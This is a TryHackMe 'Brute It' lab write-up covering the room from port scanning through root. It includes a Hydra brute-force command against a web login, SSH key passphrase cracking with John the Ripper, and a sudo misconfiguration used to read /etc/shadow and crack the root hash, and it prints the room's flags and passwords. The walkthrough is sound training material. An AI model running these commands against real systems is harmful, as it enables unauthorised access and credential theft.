# TryHackMe - Brute It Write-up


## Room Information

**Brute It** is an easy TryHackMe room that introduces web enumeration, brute forcing web logins, SSH authentication using RSA keys, password cracking with John the Ripper, and Linux privilege escalation.

---

## Objective

The objective of this room was to enumerate the target machine, discover hidden web content, brute-force the administrator login, obtain SSH access using an RSA private key, escalate privileges, and capture all the available flags.

---

## Tools Used

- Nmap
- Dirsearch
- Hydra
- SSH
- John the Ripper
- SSH2John

---

# Task 1: Reconnaissance

## Question 1

### Search for open ports using Nmap.

I began by performing an aggressive scan against the target machine.

```bash
nmap -sV -sS -T4 -O 10.48.162.207
```

### Answer

```
2
```

### Evidence

The scan identified two open ports:

- Port 22 → SSH
- Port 80 → HTTP



---

## Question 2

### What version of SSH is running?

The Nmap service detection identified the SSH version.

### Answer

```
OpenSSH 7.6p1
```

### Evidence


---

## Question 3

### What version of Apache is running?

The HTTP service banner revealed the Apache version.

### Answer

```
Apache 2.4.29
```

### Evidence


---

## Question 4

### Which Linux distribution is running?

Operating system detection identified the target as Ubuntu Linux.

### Answer

```
Ubuntu
```

### Evidence


---

# Task 2: Web Enumeration

## Question

### Search for hidden directories on the web server.

To discover hidden content, I performed directory enumeration using Dirsearch.

```bash
dirsearch -u http://10.48.162.207
```

### Answer

```
/admin
```

### Evidence

Dirsearch discovered the hidden administrator directory.



Browsing to the discovered directory displayed an administrator login page.



---

# Task 3: Initial Access

## Question 1

### What is the user:password of the admin panel?

To identify the administrator username throgh inspecting the HTML source code of the login page.

```html
<!-- Hey john, if you do not remember, the username is admin -->
```

This developer comment revealed the username was ` admin  `.



The password was still unknown, so I performed a brute-force attack using Hydra.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
10.48.162.207 http-post-form \
"/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"
```

Hydra successfully recovered the administrator password.

### Answer

```
admin:xavier
```

### Evidence



---

## Question 2

### What is John's RSA Private Key passphrase?

After logging into the administrator panel, I was presented with an encrypted RSA private key along with the first flag.



I copied the private key into a local file.



Next, I converted the key into a format supported by John the Ripper.

```bash
ssh2john brutie > hash.txt
```

I then cracked the passphrase using the RockYou wordlist.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Finally, I displayed the recovered passphrase.

```bash
john hash.txt --show
```

### Answer

```
rockinroll
```

### Evidence



---

## Question 3

### user.txt

Before connecting through SSH, I updated the private key permissions.

```bash
chmod 600 brutie
```




I authenticated using the recovered private key.

```bash
ssh -i brutie john@10.48.162.207
```

When prompted, I entered the recovered passphrase.

```
rockinroll
```

Authentication was successful.



I then viewed the user flag.

```bash
cat user.txt
```

### Answer

```
THM{a_password_is_not_a_barrier}
```

### Evidence



---

## Question 4

### Web Flag

Immediately after logging into the administrator panel, the page displayed the web flag.

### Answer

```
THM{brut3_f0rce_is_e4sy}
```

### Evidence


---

# Task 4: Privilege Escalation

## Question 1

### What is the root's password?

I began by checking the sudo permissions assigned to the current user.

```bash
sudo -l
```

The output showed that **john** could execute `/bin/cat` as root without supplying a password.

```text
(root) NOPASSWD: /bin/cat
```

Using this permission, I viewed the contents of `/etc/shadow`.

```bash
sudo /bin/cat /etc/shadow
```

### Evidence

Reading `/etc/shadow`:




I copied the root password hash into a local file and cracked it using John the Ripper.

```bash
john rootbrutie --wordlist=/usr/share/wordlists/rockyou.txt
```

John successfully recovered the root password.

### Answer

```
football
```

### Evidence

Password cracked successfully:



---

## Question 2

### root.txt

Using the recovered password, I switched to the root account.

```bash
su root
```

Password:

```
football
```

After successfully authenticating, I navigated to the root directory and displayed the final flag.

```bash
cd /root

cat root.txt
```

### Answer

```
THM{pr1v11l3g3_3sc4l4t10n}
```

### Evidence




# Lessons Learned

- Performing service enumeration using Nmap.
- Discovering hidden directories through web enumeration.
- Inspecting HTML source code for sensitive information.
- Brute forcing web login credentials using Hydra.
- Recovering and cracking encrypted SSH private keys.
- Authenticating with SSH private keys.
- Enumerating Linux sudo permissions.
- Exploiting insecure sudo configurations to gain root access.
- Cracking Linux password hashes using John the Ripper.

---

# Conclusion

This room demonstrated a complete penetration testing workflow beginning with reconnaissance and web enumeration, followed by brute forcing an administrator login to obtain valid credentials. After recovering an encrypted RSA private key, I cracked its passphrase using John the Ripper and authenticated to the target via SSH. Finally, by exploiting a misconfigured sudo rule that allowed execution of `/bin/cat` as root, I extracted the root password hash, recovered the password, and gained full administrative access to capture the final flag. Overall, this room reinforced the importance of thorough enumeration, secure credential management, and proper sudo configuration in Linux environments.
